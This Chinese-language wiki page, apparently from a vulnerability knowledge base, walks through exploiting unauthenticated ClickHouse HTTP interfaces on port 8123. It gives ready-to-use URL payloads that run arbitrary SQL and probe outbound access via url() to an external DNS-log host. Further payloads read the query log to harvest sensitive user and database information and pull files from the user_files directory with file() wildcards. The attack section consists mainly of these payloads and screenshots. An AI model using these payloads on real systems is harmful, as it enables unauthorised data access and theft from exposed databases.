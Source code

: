 # ClickHouse 8123端口

## 关于

<a-checkbox checked>默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在[Http服务响应配置](https://clickhouse.tech/docs/zh/operations/server-configuration-parameters/settings/#server_configuration_parameters-http_server_default_response)定义(在末尾添加换行)</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1628588206029-001c2f56-3c81-460f-9c1e-e9591ef9a545.png)

这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行SQL语句获取数据



## 攻击方法

首先确定是否使用了 ClickHouse 数据库的接口

![img](/assets/PeiQi-Wiki/img/1628596147024-6b26b99d-8bdf-4a21-b240-f607be168a27.png)

根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header

![img](/assets/PeiQi-Wiki/img/1628589399544-1c658858-3310-4fcd-81d5-b50ed0f0696f.png)



测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```php
/?query=SHOW%20DATABASES
```

![img](/assets/PeiQi-Wiki/img/1628596162773-fc4906c3-fd7d-4ede-a8d7-84a448ff4204.png)

成功执行语句获取数据，执行其他命令探测出网

```php
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```

![img](/assets/PeiQi-Wiki/img/1628596284780-19788c3d-bd1b-4d95-97e9-6a9a16fd0138.png)

![img](/assets/PeiQi-Wiki/img/1628596307830-d5958eea-ede0-4c17-8573-e77b07b362d4.png)

其中也可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log
```

![img](/assets/PeiQi-Wiki/img/1628597494586-5ea6c6ea-6526-44e0-b4b2-c92ae0fcb2d5.png)



由于默认配置中的可读路径默认 (`配置文件位置：/etc/clickhouse-server/config.xml`)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件



<a-checkbox checked>/var/lib/clickhouse/user_files/</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1628598316644-34da7b10-b2c6-45f1-a4ff-d5c11be372c7.png)

其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息

![img](/assets/PeiQi-Wiki/img/1628600107499-7067f4c9-bc8a-4540-84e6-ceafd4dfdb42.png)

```php
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

![img](/assets/PeiQi-Wiki/img/1628600056235-beb60a43-c6bd-499c-8383-647185379ed1.png)